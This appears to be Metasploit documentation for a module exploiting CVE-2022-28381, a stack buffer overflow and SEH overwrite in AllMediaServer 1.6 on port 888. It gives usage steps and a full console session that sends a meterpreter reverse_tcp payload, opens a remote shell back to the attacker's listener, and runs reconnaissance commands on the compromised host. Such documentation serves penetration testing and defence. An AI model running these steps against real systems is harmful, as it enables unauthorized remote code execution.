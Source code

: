 ## Vulnerable Application

AllMediaServer 1.6 and prior is vulnerable to a stack buffer overflow resulting in a SEH handler overwrite when sending an
overly long TCP request to the listening server, which runs on port 888 by default. By controlling this buffer overflow,
an attacker can overwrite the SEH exception handler and abuse the exception handling mechanism to gain RCE on the target
server as the user running AllMediaServer 1.6.

This exploit has been confirmed to work on x86 systems as well as on WoW64 systems, however it will not work against x64
systems due to the fact that they have a different way of implementing exception handling.

## Verification Steps
1. `use exploit/windows/misc/cve_2022_28381_allmediaserver_bof`
1. Set `RHOSTS` to the target IP address or addresses.
1. Optional: Set `RPORT` to the port of AllMediaServer if it has changed.
1. Set payload options as appropriate.
1. `exploit`
1. Verify you get a new shell as the user running AllMediaServer.

## Options

## Scenarios

### Windows 10 10.0.19043.1586 with AllMediaServer 1.6
```
msf payload(windows/x64/meterpreter/reverse_tcp) > use exploit/windows/misc/cve_2022_28381_allmediaserver_bof
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf exploit(windows/misc/cve_2022_28381_allmediaserver_bof) > show options

Module options (exploit/windows/misc/cve_2022_28381_allmediaserver_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasplo
                                      it
   RPORT   888              yes       The target port (TCP)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.26.241.162   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   ALLMediaServer 1.6


msf exploit(windows/misc/cve_2022_28381_allmediaserver_bof) > set RHOSTS 172.26.251.245
RHOSTS => 172.26.251.245
msf exploit(windows/misc/cve_2022_28381_allmediaserver_bof) > set LHOST 172.26.241.162
LHOST => 172.26.241.162
msf exploit(windows/misc/cve_2022_28381_allmediaserver_bof) > exploit

[*] Started reverse TCP handler on 172.26.241.162:4444
[*] 172.26.251.245:888 - Sending payload to exploit MediaServer...
[*] 172.26.251.245:888 - Sent payload...hopefully we should get a shell!
[*] Sending stage (175174 bytes) to 172.26.251.245
[*] Meterpreter session 1 opened (172.26.241.162:4444 -> 172.26.251.245:50285 ) at 2022-04-04 10:50:22 -0500

meterpreter > getuid
Server username: DESKTOP-JLPENJ2\admin
meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeIncreaseWorkingSetPrivilege
SeShutdownPrivilege
SeTimeZonePrivilege
SeUndockPrivilege

meterpreter > sysinfo
Computer        : DESKTOP-JLPENJ2
OS              : Windows 10 (10.0 Build 19043).
Architecture    : x86
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 4
Meterpreter     : x86/windows
meterpreter > exit
```

